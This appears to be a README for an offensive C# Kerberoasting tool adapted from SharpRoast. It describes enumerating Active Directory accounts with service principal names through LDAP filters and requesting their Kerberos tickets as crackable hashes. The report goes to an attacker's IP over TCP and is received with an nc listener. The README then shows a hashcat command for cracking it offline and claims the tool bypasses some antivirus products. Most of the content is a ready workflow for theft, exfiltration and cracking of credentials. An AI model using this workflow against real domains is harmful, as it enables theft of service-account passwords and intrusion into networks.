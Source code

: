 ﻿### YAKRR
#### Yet Another KerbeRoast Recipe
Based on https://github.com/GhostPack/SharpRoast, even if deprecated it works quite well.
I slighty modified the code creating a class **DCEnumNC.KBRoast** with only one public method
*RoastNow* that accept as arguments an array of strings, exactly the same interface of the original
project. See the comment on the code to explore the parameters list.
I have also coded a *helper* class **DCEnumNC.EnumDC** with (at the moment) only 
one public static method to simply get the DC name server and the IP.<br>
The console application, that actually wraps the calls to the class methods, accept 3 parameters:
1. The attacker IP used to send the report
2. The port of the attacker IP
3. The command parameter *forwarded* to the RoastNow method

How does it works?
1. First the program check if the machine has joined a domain using the method **EnumDC.GetDCInfo()**
<br>If an error occurs probably the machine is not part of a domain, otherwise the Domain controller
name server and IP are returned as string.
2. Then the method **KBRoast.RoastNow(args)** is called passing the second argument as passed to 
the program
```
string[] KBargs = { args[2] };
sb.Append(KBRoast.RoastNow(KBargs)); 
```
3. If the argument passed is *all* the LDAP query will try to retrive all the users, 
except krbtgt<sup>1</sup> obects as follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt))
```
4. If a username is provided, e.g. zinz, the query will be the follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=zinz))
```

The query retrive all the user objects <sup>2</sup>, having the SPN attribute set.

5. For each found user the private method **GetDomainSPNTicket** is called and the program issue a
Kerberos token request, if succeed the hash is returned in a hashcat format, ready to be parsed using
the mode **13100  Kerberos 5 TGS-REP etype 23**. The encryption (eType) expected is 23 *rc4-hmac*<sup>3</sup>
and in case of error parsing the cipher text the program will return the *TicketHexStream* that we
could try to parse using the powershell function *Get-KerberoastHashFromAPReq* from the following
script: https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-KerberoastingHash.ps1 
<br>The program creates a report having the following format:
```
DC name: DC01.zinz.local, IP: 192.168.1.100
SamAccountName         : hack
DistinguishedName      : CN=Hack Her,CN=Users,DC=zinz,DC=local
ServicePrincipalName   : http/zinz.org
Hash                   : $krb5tgs$23$*$zinz.local$http/zinz.org*$51A8E402265B9E3C7FFCE1DFC3134234$60870EA
                         3822A8AC2CBDA715E7ABEC906954D1B9849040AC1CE29B0BCCDE01ED042AEB0DED04F70F25E1BD29
                         6E1FF304AE6E24FAB92C67566BB5005A22F21F27268B1EC3B5F6F0F573B2EE8BDBC0A53716420E54
                         0E2FD0F439BBA985D5D1746749A0DFBF78955FD038E8F6FBE4F5C31B23FFA6FF625695B184EFCFB1
                         116F065514B479A5830196029344152414D14771BD2DD1AAB698DA998BD00AD66D4911B8466DEE07
                         A0DE3515A98FCBC9F4BF4CD80CDFE2AA6F2C71A463CA1F0FD9C7EE3B22CB339C3A7ED7260E07CA02
                         5F3E2DE9DE2BDDE354744B88AC075D4ED3F533B2F19FAEC645DCCECF5A03B0985BD55423D6DB2142
                         7507AB166A8B3BA6AFF603E12296A8FCFD644DD41AF70EB7CFBA8B0FE2E55A462BEB43C4759490C0
                         AA92CE10E2DECDD9A9A7839E4147ADE8D613C30250075E26C2FD0B12C2CD6B5A4AF324EC051BC1A6
                         D1822554EAEC5E4518BEB7925673585BCA19A554C1EAD351D6BA9E42CA98510CA190B2539F6B29EF
                         A9C28B7DAFFDE7B32227058179A6830F461365EB9FE53E0787686085E0A321AA3504B904F6D58FB9
                         08D64094A95115394111B2AD474E0FF9A77C62A07949D611051F7F1EBE4115763BE21104233CAE0D
                         F2E2C6E27E11C8B473CE514ECED538B98ADFA4FB77527BAC1E6AF2300FFCA1C56E3DC3C3D95FC2AE
                         1508D7C106C29414979D2E80C677B82EDD0FA91F73DF6D4D4EEBFE30A67DB58D99CFCF05AC382951
                         D45DC4510D14B307D869465F90FEBA2E3254396B4735A5D81DDA6D6F3C04F078DFEF7F40CF8FD3FE
                         D1C2466DEF72AEBD8F27AEE44375FD42E95627902887D427B28EAE7901C8FBD8051A0B758F39E457
                         4BCE0CD6E8B85EF30617D597C153F0163EED64FDAE91CF0A9F77E3BD813D389499AB2C0A5C4EB6B8
                         20AFB6F20929E95CCCAEB775EC6A5316BB21C3209A7065A8D314D9BA2BCD990D11EE47822B24DD1D
                         2DD8B8CF36EC2D9F32C26D9F54180A6F7B98FAEB3CE488766F12A60988C2B64D9A93E627A5D58E69
                         F0C3E38A6E80F0A9D8B03FD415F863C8743D082F3124A4C4B1AE623D21D65CCAAA9457ADC3667CB3
                         DFD63E3D36C9D2EE89A13D9C4996694D623B373A1A42C5E5B030F471B18EE26DF7BC634712D2DC1F
                         5D1F3D852C54835E7024DF57C2A4698A23EE7BBD903DF577604D872A40341FC922B7D841D5694974
                         417E0CFF812AD9480F96227839D33CCD43AA791D42083BA36709680CE1E29AD9E106167C40913924
                         CBE6FFBB34C5DFDB81F9B53DA8C5DA5A28F809A3B192A3178D6FBDB0ACC3305D421B7C0FBB168222
                         0CCBC20C798C9B129CDBB87950D19BB44C42E3DA8C54AD9CFDCB8A07720618617AEAD750398258F4
                         5DAD90CAE1ED1111095AB6840BB0BDB3C4C1DC0DBB861F49421D251BCA5AD294EE3969B4BB194A43
                         371BD1C61D9
...
```

The report is finally sent to the attacker using a network TCP stream. On the attacker we can save
the stream to a text file using the following command:

    nc -lvp <port> > kbrep.txt
    
As said the IP and the port of the attacker are passed as arguments 1 and 2 to the program.

6. Finally we can try to reverse the hash locally using hashcat<br>
![Screenshot](hashcatKerb.png)
Here I have found 2 passwords using the rockyou wordlist, please note that the second one *Toor1234* 
has been added on the wordlist and it's not present on the default rockyou file. The command used was:
```
hashcat.exe -a 0 -m 13100 -w 3 --status --status-timer=60 --potfile-disable -p : -O --hwmon-temp-abort=85 -r rules\best64.rule kerbTicketHash.txt wordlists\rockyou.txt
```
#### About AV bypass
Using this technique I was able to bypass some well known AV solutions but not Windows defender! 
To low the fingerprint on the victim we could try to get back the encoded requested ticket without
parsing to the hashcat format, doing this operation locally.

---
<small><sup>1</sup> The KRBTGT account is a local default account that acts as a service account for 
the Key Distribution Center (KDC) service. More info at: https://adsecurity.org/?p=483
<br><sup>2</sup> The filter (sAMAccountType=805306368) for user objects is more efficient than 
the usual filters<br>
<sup>3</sup> https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#kerberos-parameters-1 
</small>


